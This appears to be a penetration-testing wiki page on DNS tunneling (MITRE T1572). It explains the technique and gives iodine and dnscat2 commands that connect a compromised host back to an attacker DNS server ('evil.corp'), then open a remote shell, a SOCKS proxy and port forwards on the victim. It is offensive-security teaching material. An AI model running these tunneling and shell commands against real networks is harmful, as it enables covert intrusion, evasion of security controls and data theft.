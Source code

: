 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# DNS Tunneling

## Theory

DNS Tunneling also known as **TCP over DNS**, is another method used for covert communication and circumventing network security measures. In DNS tunneling, data is encoded in DNS queries and responses to create a communication channel between two endpoints. DNS, which is primarily designed for translating domain names to IP addresses, becomes a carrier for data that may not be related to traditional domain resolution.

{% hint style="danger" %}
DNS tunneling may also be used as an [exfiltration](../exfiltration/dns.md) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="iodine" %}
[iodine](https://github.com/yarrick/iodine) is a C software that lets you tunnel IPv4 data through a DNS server.\
On the attacking machine we can run the server:

```bash
v4resk@kali$ sudo iodined -f -c -P password 10.1.1.1/24 my.attackingDnsServer.com    
```

On the compromised host, the jumpbox, we will setup the iodine client:

```bash
victim@pwnd.lab$ sudo iodine -P password my.dnsServer.com     
```

Now the attacking machine and the compromised host are sending traffics throught the `dns0` interface. All communication over this interface on the network 10.1.1.1/24 will be over the DNS. We can then setup a socks5 proxy using the `-D` argument of ssh client.

```bash
veresk@kali$ ssh victim@10.1.1.2 -4 -D 1080 -Nf
```
{% endtab %}

{% tab title="dnscat2" %}
{% hint style="info" %}
We consider that an authoritative DNS server for `evil.corp` has been registered and is pointing the Attacking IP hosting the dnscat2 server. But we can also perform this tunneling technique whitout a domain.&#x20;
{% endhint %}

We can use [dnscat2](https://github.com/iagox86/dnscat2) to infiltrate data using DNS with TXT (and other) records. First on the attacking host, we can start the dnscat server as follow

```bash
dnscat2-server evil.corp
```

On the target run one of the following commands to connect back to the server

```bash
# Connect if server is an authoritative DNS server.
./dnscat evil.corp

# talk directly to the server without a domain name
./dnscat --dns server=x.x.x.x,port=53
```

We can start interacting with the target from our dncatserver

```bash
# List sessions
dnscat2> windows

# Select a session
dnscat2> window -i <SESSION_ID>

# We can:
## Get a shell from a session
command (pwnedHost) 1> shell
[Ctrl+Z]

dnscat2> window -i <SHELL_SESSION_ID>
sh (pwnedHost) 2> whoami
sh (pwnedHost) 2> user01

## Do a port forward from a session
#<DNSCAT_SRV_LOCAL_IP>:<DNSCAT_SRV_LOCAL_PORT> <REMOTE_IP>:<REMOTE_PORT>
command (pwnedHost) 1> listen 127.0.0.1:4455 10.10.12.11:445 
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
